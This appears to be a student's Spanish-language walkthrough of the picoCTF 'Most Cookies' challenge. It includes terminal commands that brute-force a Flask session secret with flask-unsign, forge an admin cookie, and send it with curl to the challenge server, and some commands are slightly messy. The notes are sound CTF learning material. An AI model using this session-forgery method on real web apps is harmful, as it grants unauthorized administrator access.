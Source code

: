 
## Most Cookies



Hints:

## Solución:

https://mercury.picoctf.net/static/e99686c2e3e6cdd9e355f1d10c9d80d6/server.py
Entrar al link que aparece con la snickerdoodle ahi y copiar la cookie


brisguz@DESKTOP-8V24E1B:~/Fun_Seg_Red$ wget https://mercury.picoctf.net/static/e99686c2e3e6cdd9e355f1d10c9d80d6/server.py
--2025-04-04 23:02:22--  https://mercury.picoctf.net/static/e99686c2e3e6cdd9e355f1d10c9d80d6/server.py
Resolving mercury.picoctf.net (mercury.picoctf.net)... 18.189.209.142
Connecting to mercury.picoctf.net (mercury.picoctf.net)|18.189.209.142|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2021 (2.0K) [application/octet-stream]
Saving to: ‘server.py’

server.py                       100%[=====================================================>]   1.97K  --.-KB/s    in 0s

2025-04-04 23:02:23 (25.0 MB/s) - ‘server.py’ saved [2021/2021]

brisguz@DESKTOP-8V24E1B:~/Fun_Seg_Red$ echo eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z_C5UA.HNd9u8NzFZGmpnHMSt6V1ijeIiQ | base6
4 -d
{"very_auth":"snickerdoodle"}base64: invalid input
brisguz@DESKTOP-8V24E1B:~/Fun_Seg_Red$



Ver el codigo
cat server.py


Copear las cookies que estan en el código
snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia



Copear la cookie: eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z_HsGA.CwKw9aUh4Zsv1tNUYN071d71lrA

Poner: 
(.venv) brisguz@DESKTOP-8V24E1B:~/Fun_Seg_Red$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z_HsGA.CwKw9aUh4Zsv1tNUYN071d71lrA" --wordlist cookies.txt
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'
(.venv) brisguz@DESKTOP-8V24E1B:~/Fun_Seg_Red$


La palabra secreta es : 'peanut butter'


Siguiente Paso: Solo se pone hasta donde tenga "peanut butter"- lo demas aparece
(.venv) brisguz@DESKTOP-8V24E1B:~/Fun_Seg_Red$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret "peanut butter"
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z_HurQ.6B0cL0lXbLQvSXGfU5f_4iG4FMs
(.venv) brisguz@DESKTOP-8V24E1B:~/Fun_Seg_Red$



curl-s http://mercury.picoctf.net:53700/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z_HwOg.bKIP0bg7EVb-cnI-_BxrI6xY4Zo" | grep p





